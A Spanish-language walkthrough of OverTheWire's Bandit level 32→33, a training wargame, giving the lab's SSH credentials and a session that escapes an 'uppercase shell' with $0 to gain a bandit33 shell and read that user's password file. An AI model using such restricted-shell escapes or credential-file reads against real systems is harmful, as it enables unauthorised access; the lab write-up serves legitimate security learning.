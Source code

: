 # Bandit Level 32 → Level 33

## Objetivo
Después de todo esto, es hora de otro escape. ¡Buena suerte!

## Datos de acceso al nivel
* Servidor: ssh bandit32@bandit.labs.overthewire.org
* Usuario: bandit32
* Contraseña: rmCBvG56y58BXzv98yZGdO7ATVL5dW8y

## Solución
``` bash 
  Enjoy your stay!

WELCOME TO THE UPPERCASE SHELL
>> clear
sh: 1: CLEAR: not found
>> whoami
sh: 1: WHOAMI: not found
>> $0
$ pwd
/home/bandit32
$ whoami
bandit33
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Feb 21 22:03 .
drwxr-xr-x 70 root     root      4096 Feb 21 22:04 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Feb 21 22:03 uppershell
$ cd /etc
$ ls
NetworkManager                 group                       lsb-release                          services
'bandit_pass'                    hosts.allow                 modules                 shadow
bash.bashrc                    hosts.deny                  modules-load.d          
$ cat /etc/bandit_pass
cat: /etc/bandit_pass: Is a directory
$ cat /etc/bandit_pass/bandit33
'odHo63fHiFqcWWJG9rLiLDtPm45KzUKy'
$
```
## Notas Adicionales
|Comando | Descripcion |
|-----|-------|
| $0 | Convierte una terminal uppercase a una shell. |
| whoami | Muestra el nombre de usuario del usuario actual. | 
| pwd | Imprime la ruta del directorio de trabajo, comenzando desde la raíz. | 

## Referencias
* [whoami](https://www.geeksforgeeks.org/whoami-command-linux-example/)
* [pdw](https://www.geeksforgeeks.org/pwd-command-in-linux-with-examples/)

Fecha: 04/03/2023.